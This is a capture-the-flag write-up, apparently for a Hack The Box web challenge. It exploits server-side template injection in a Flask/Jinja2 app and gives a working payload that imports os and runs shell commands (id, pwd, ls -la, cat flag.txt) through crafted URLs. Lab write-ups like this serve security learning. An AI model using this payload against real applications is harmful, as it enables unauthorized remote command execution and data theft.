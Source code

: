 # 159.65.89.165:31913

# Site

![templated-htb](https://user-images.githubusercontent.com/98345027/189034879-9c7bc294-cc9d-4f03-9e8d-5f48d66c813c.png)

#### Inspecting the page

![network-htb-templated](https://user-images.githubusercontent.com/98345027/189035349-a9d520a0-1454-414c-bcd0-34ec23959481.png)

### Findings
```javascript
Werkzeug/1.0.1 Python/3.9.0
```

`` A quick google search about "Wekzeug 1.0.1" leads to this`` ![page](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug) `` where we get to know about  RCE`` 

```python
If we type http:url:port/console , notice that the webpage reflect the keyword what ever we search for. This relates to common vulnerability on jinja2 that is SSTI. This ia good Reference https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

```
![templated-console-htb](https://user-images.githubusercontent.com/98345027/189036753-247e914c-e9d5-4c1f-b288-1104d514fca5.png)

`` To Confirm it we try random text``

![templated-htb-random-try](https://user-images.githubusercontent.com/98345027/189037944-2479600b-262a-4b96-98ee-37facd67ea4e.png)

### SSTI

```javascript
Since we know that the server is running on flask which is a Python Library, Which we can make use of Method Resolution Order (MRO) to traverse up the request library in Flask to import os library as shown in the Reference
```
```javascript
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

#### Exploit Testing

```javascript
1.First we check for id command
```
![exploit-templated-htb](https://user-images.githubusercontent.com/98345027/189039146-a4fad9ad-54ac-46ac-ab3d-8a34ece121a6.png)

```javascript
1. Checking for current directory 
http://159.65.89.165:31913/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('pwd').read()%7D%7D
```

```javascript
2.Listing All the files
http://159.65.89.165:31913/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('ls%20-la').read()%7D%7D
```
![flag-txt-htb-templated](https://user-images.githubusercontent.com/98345027/189039935-c83cb091-0db8-4d43-a00a-a5a15e2bac4f.png)

```
Once we confirmed that in the current directory there is flag we can run a command to print the flag on the screen itself
http://159.65.89.165:31913/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('cat%20flag.txt').read()%7D%7D
```

![actual-flag-htb-templated](https://user-images.githubusercontent.com/98345027/189040390-fb0340e5-287c-4971-9f6c-c323494b0e1c.png)




### REFERENCE
[BLOG]( https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)
### NOTE
```javascript
TECH-STACK: Python,Flask,jinja2
VULNERABILITY: SSTI
```

